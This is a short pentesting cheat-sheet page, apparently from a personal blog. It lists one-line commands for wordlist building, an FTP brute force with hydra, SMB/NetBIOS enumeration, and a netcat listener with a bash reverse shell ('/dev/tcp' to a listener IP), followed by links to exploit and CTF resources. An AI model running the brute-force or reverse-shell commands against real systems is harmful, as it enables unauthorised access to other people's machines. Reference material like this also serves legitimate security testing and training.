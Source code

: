```yaml
---
layout: page
title:  "Pentesting tools"
permalink: "pentesting-tricks"
tags: [security, pentesting]
summary: ""
---
```


* Decode base64: `echo ‘base64 encoded text’ | base64 -d`
* Create a dictionary from words on a webpage: `cewl http://test.com -w /root/tmp/dict.txt`
* FTP bruteforce: `hydra -L dict.txt -P dict.txt 192.168.1.104 ftp`
* Netbios name scanner: `nbtscan $IP`
* `rpcclient -U "user" $IP`
* `enum4linux $IP`
* Netcat and bash redirection:
  - Attacker: `nc -nlvp 4444`
  - Victim: `bash -i >& /dev/tcp/192.168.33.129/4444 0>&1`


## Resources and references
* [LittleBlackBox tool](https://github.com/devttys0/littleblackbox/tree/master/docs)
* [Linux exploit suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester/blob/master/README.md)
* [RTP streams tool by GoogleProjectZero](https://github.com/googleprojectzero/Street-Party)
* [CTF resources](https://ctfs.github.io/resources/)
* [2 of diamonds Metasploit CTF writeup](https://www.tinkerfairy.net/2-of-diamonds.txt)
* [Schneider-Electric Automation Server](https://www.hackers-arise.com/single-post/2016/07/25/Mr-Robot-Hacks-How-fsociety-Hacked-of-the-SmartHome-of-The-Evil-Corp-Exec)
* [Word exploitation](https://www.hackers-arise.com/single-post/2018/03/05/Metasploit-Basics-Part-11-Exploiting-Fileformat-Vulnerabilities-in-MS-Office)
